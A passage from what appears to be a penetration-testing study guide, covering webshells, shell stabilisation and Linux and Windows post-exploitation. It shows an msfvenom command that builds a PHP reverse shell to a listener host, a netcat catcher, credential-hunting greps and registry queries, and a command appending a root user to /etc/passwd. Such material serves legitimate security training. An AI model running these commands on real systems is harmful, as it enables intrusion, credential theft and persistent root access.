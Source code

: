 
### **6. Examples**

- Kali’s built-in webshells (**`/usr/share/webshells`**).
- Custom-obfuscated shells to bypass security controls.

**Example: Generating a Stealthy PHP Webshell**

```bash
msfvenom -p php/reverse_php LHOST=10.0.0.1 LPORT=4444 -f raw -o shell.php
```

Then catch it with:

```bash
nc -lvnp 4444
```

---

## **Stabilizing Shells & Escalating Access**

Unstable, non-interactive shells are common after initial exploitation. The goal is to upgrade to a more stable, native access method.

---

### **Linux Post-Exploitation**

1. **SSH Keys**:
    - Check **`/home/<user>/.ssh/`** for stored keys.
    - Add your public key to **`authorized_keys`** for persistent access.
2. **Credential Hunting**:
    - Search for passwords in files (**`/etc/passwd`**, **`/etc/shadow`**, configs, logs).
    - Use **`grep -Ri "password" /`** or check **`~/.bash_history`**.
3. **Privilege Escalation**:
    - Exploit vulnerabilities (e.g., Dirty Cow) to modify **`/etc/passwd`** or **`/etc/shadow`**.
    - Add a new user:
        
        ```bash
        echo "username:$(openssl passwd -6 password):0:0::/root:/bin/bash" >> /etc/passwd
        ```
        
4. **Service Abuse**:
    - If **`sudo`** or SUID binaries are misconfigured, escalate to root.

---

### **Windows Post-Exploitation**

1. **Credential Hunting**:
    - **Registry**: Check for plaintext service passwords (e.g., VNC, RDP).
        
        ```bash
        reg query HKLM /f "password" /t REG_SZ /s
        ```
        